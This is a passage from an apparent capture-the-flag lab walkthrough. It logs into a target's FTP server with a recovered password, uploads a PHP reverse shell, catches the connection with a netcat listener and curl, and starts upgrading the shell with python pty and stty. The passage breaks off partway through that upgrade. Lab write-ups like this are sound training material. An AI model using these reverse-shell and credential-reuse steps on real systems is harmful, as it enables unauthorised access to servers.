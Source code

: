 That works we can successfully login to the ftp server using `paradox` username and `ShibesAreGreat123` as its password. when i use `ls` command there we can see this is website home directory there we can see `Backups` directory `index.html`,`main.css` etc. 
![OverpassHostingBackupsZipFileDecryptedTypeDetailsFTP png ](https://user-images.githubusercontent.com/85181215/128857326-9f825791-ad38-448f-b15c-9cdedce29d62.png)

So now we can put a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) there using ftp so we can get the connection back to us. Download the reverse shell and edit the IP address with your IP address and also change the port number with your own choice. 

So now we are ready to upload the `shell.php` file to the target system. connect to the target ftp server using the following command syntax

Syntax: `ftp Target_IP_Here`
password: `ShibesAreGreat123`

so when we are connected to the ftp server using the following command to upload the shell to the target web directory
```
ftp> put shell.php
```

This will upload the `shell.php` to the target system. 
**Note if your shell.php file in other directory so give him the full PATH of that file**

## Exploitation

Now we upload the `shell.php` file to the target system now time to get the connection first start the listener on the system using the following command
```
$ nc -lvnp 4444
```
where `4444` is the port number that are in the shell.php. When you done it so just go the link in your browser or you can use the following command to activate the shell.php
```
$ curl http://Tareget_IP/shell.php
```

And now you got the connection back to the listener. if you use `id` command there your are login to the user `apache` use `cd` command and press enter  to go to home directory of that user and there you will see the `web flag`. Now time to upgrage the shell 

#### Shell Upgrade

First use the following command 

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After that press `Ctrl+z` to background the netcat shell and go to your system shell and then use the following command

```
$ stty raw -echo
```

